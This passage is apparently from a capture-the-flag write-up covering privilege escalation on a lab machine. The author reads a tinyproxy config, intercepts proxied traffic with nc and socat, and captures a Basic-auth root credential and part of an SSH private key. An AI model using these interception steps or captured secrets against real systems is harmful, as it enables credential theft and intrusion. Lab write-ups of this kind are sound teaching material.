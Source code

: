 I checked any other running services through `pspy64` Tool and I got this `tinyproxy` running noticed so I looked into its configuration files from here `/etc/tinyproxy/tinyproxy.conf` →

```bash
www-data@tiny:/var/www/html$ cat /etc/tinyproxy/tinyproxy.conf | grep -v '#' | grep .
cat /etc/tinyproxy/tinyproxy.conf | grep -v '#' | grep .
User tinyproxy
Group tinyproxy
Port 8888
Timeout 600
DefaultErrorFile "/usr/share/tinyproxy/default.html"
StatFile "/usr/share/tinyproxy/stats.html"
LogFile "/var/log/tinyproxy/tinyproxy.log"
LogLevel Info
PidFile "/run/tinyproxy/tinyproxy.pid"
Upstream http localhost:1111
MaxClients 100
Allow 127.0.0.1
Allow ::1
Allow 192.168.0.30
ViaProxyName "tinyproxy"
www-data@tiny:/var/www/html$
```
{: .nolineno}
{: .nolineno}
{: file='/etc/tinyproxy/tinyproxy.conf'}

from here I got to know that this proxy is sending a request on port 1111 so I started lisening on port 1111 and I got this response →

```bash
www-data@tiny:/var/www/html$ nc -lvnp 1111
nc -lvnp 1111
listening on [any] 1111 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 43490
GET http://127.0.0.1:8000/id_rsa HTTP/1.1
Host: 127.0.0.1:8000
Connection: close
Via: 1.1 tinyproxy (tinyproxy/1.11.1)
Authorization: Basic cm9vdDpRMlg0OXQ0V2pz
User-Agent: curl/7.88.1
Accept: */*
```
{: .nolineno}
{: .nolineno}

Now I know that the private key file that is `id_rsa` file is being delived to port 8000 so I redirected the socat 8000 port to port 1111 so that the port 1111 will work as a lisener and also catches the output for id_rsa file →

```bash
www-data@tiny:/tmp$ ./socat_x86 -v TCP-LISTEN:1111,reuseaddr,fork TCP:127.0.0.1:8000
<v TCP-LISTEN:1111,reuseaddr,fork TCP:127.0.0.1:8000

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAr/yECvux95Vg435Ui0yuaBZTS/WUvQqlf7bYXEfYyL/8xCZFmBzE
4cMvIOcS3h0O766SRGu0hYZRkNZifQRBs8+vEFuc1lGxm1JsJpCqJ1aI61ieL/6n9xv2ci
O+nz7ONmcitb/Xpg4k95w/pRQRY6kDwfSUFhUY7roVbZLzPTjtb+z4BCWEp6nokFmOBw20
oL3h/lKK8yHE2nSQVLc47wnNyM97TJT0lac4gTkm5lqGNrDhbmo1e5OeDKjezkmXGTqNo4
RAp0bl6ZHQ6A43nm5YBr/btdPZq2huSifVdgaXu3joLuMbzanihyEq1gaSrf0BaFDKjf0g
vyiNfTd5lc+W+/SnystQuddu5hR9i8H75VBONhpOeShU3mFVpCZ7BErltTtEU73jzxbZKg
/pLw/PZFJvw0SOQN3oTuVwXioxF1dD8fM4sXqu9AoXAQnrQ3wZW7tdfFHGHCC53nxtQnHJ
oB/KV3AXKanDZ+lXAoPTNwPpAGPlTo6oR9mNtxYPAAAFiC4qngkuKp4JAAAAB3NzaC1yc2
EAAAGBAK/8hAr7sfeVYON+VItMrmgWU0v1lL0KpX+22FxH2Mi//MQmRZgcxOHDLyDnEt4d
Du+ukkRrtIWGUZDWYn0EQbPPrxBbnNZRsZtSbCaQqidWiOtYni/+p/cb9nIjvp8+zjZnIr
W/16YOJPecP6UUEWOpA8H0lBYVGO66FW2S8z047W/s+AQlhKep6JBZjgcNtKC94f5SivMh
```